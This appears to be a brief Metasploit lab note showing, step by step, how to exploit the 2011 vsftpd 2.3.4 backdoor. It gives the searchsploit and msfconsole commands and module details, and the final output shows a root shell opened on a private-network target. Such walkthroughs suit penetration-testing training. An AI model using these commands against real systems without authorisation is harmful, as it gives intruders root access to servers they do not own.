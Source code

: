 ### Basic msf

```msfconsole```

```show payload```

```show exploits```

### vsftp 2.3.4 exploit

```searchsploit vsftpd 2.3.4```

```
-------------------------------------------------------------------------------------------------------------- ---------------------------------
 Exploit Title                                                                                                |  Path
-------------------------------------------------------------------------------------------------------------- ---------------------------------
vsftpd 2.3.4 - Backdoor Command Execution                                                                     | unix/remote/49757.py
vsftpd 2.3.4 - Backdoor Command Execution (Metasploit)                                                        | unix/remote/17491.rb
-------------------------------------------------------------------------------------------------------------- ---------------------------------
```

msf5 >

```search vsftpd```

```
Matching Modules
================

   #  Name                                  Disclosure Date  Rank       Check  Description
   -  ----                                  ---------------  ----       -----  -----------
   0  exploit/unix/ftp/vsftpd_234_backdoor  2011-07-03       excellent  No     VSFTPD v2.3.4 Backdoor Command Execution


Interact with a module by name or index. For example info 0, use 0 or use exploit/unix/ftp/vsftpd_234_backdoor
```

```use exploit/unix/ftp/vsftpd_234_backdoor```

```info```

```
       Name: VSFTPD v2.3.4 Backdoor Command Execution
     Module: exploit/unix/ftp/vsftpd_234_backdoor
   Platform: Unix
       Arch: cmd
 Privileged: Yes
    License: Metasploit Framework License (BSD)
       Rank: Excellent
  Disclosed: 2011-07-03

Provided by:
  hdm <x@hdm.io>
  MC <mc@metasploit.com>

Available targets:
  Id  Name
  --  ----
  0   Automatic

Check supported:
  No

Basic options:
  Name    Current Setting  Required  Description
  ----    ---------------  --------  -----------
  RHOSTS                   yes       The target host(s), see https://github.com/rapid7/metasploit-framework/wiki/Using-Metasploit
  RPORT   21               yes       The target port (TCP)

Payload information:
  Space: 2000
  Avoid: 0 characters

Description:
  This module exploits a malicious backdoor that was added to the 
  VSFTPD download archive. This backdoor was introduced into the 
  vsftpd-2.3.4.tar.gz archive between June 30th 2011 and July 1st 2011 
  according to the most recent information available. This backdoor 
  was removed on July 3rd 2011.

References:
  OSVDB (73573)
  http://pastebin.com/AetT9sS5
  http://scarybeastsecurity.blogspot.com/2011/07/alert-vsftpd-download-backdoored.html
```

```set RHOSTS```

```show payloads```

```show options```

```exploit```

```
[*] 192.168.87.109:21 - The port used by the backdoor bind listener is already open
[+] 192.168.87.109:21 - UID: uid=0(root) gid=0(root)
[*] Found shell.
[*] Command shell session 1 opened (192.168.87.116:40691 -> 192.168.87.109:6200) at 2022-11-23 12:55:38 -0500
```